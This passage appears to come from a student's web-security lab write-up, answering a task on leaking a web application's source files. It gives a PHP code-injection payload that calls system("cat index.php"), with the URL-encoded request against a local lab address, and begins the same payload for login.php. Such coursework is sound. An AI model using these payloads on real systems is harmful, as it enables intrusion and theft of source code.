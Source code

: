 


\`\`\`

  

The above methods are un-successfull as they are executing on server side but not as a response that can be viewed in browser.

  
  
  
  
  

\_\_6. Show how to “leak” the complete source files of your web application. Briefly describe, how you accomplished this.\_\_

\_\_solution :\_\_

\- Since, command execution on \`htbdetails\` > \`Account details\` page is possible, we used system commands to display the source files.

  

\- Leaking index page

 - payload used 

 \`\`\`php

 '. system("cat index.php") .'

 \`\`\`

 - Application URL

 \`\`\`javascript

 http://192.168.37.128/htdocs/index.php?

 account=173105291&page=

 htbdetails&query=%27.+system%28%22cat+

 index.php%22%29+.%27&

 submit=Submit+Query

 \`\`\`

 -  \*\*Result\*\*

  

 !\[leak\_source\_1\](images/task2/leak\_source\_1.PNG)

 <br></br>

  

\- Leaking login.php page

 - payload used

 \`\`\`php

 '. system("cat login.php") .'

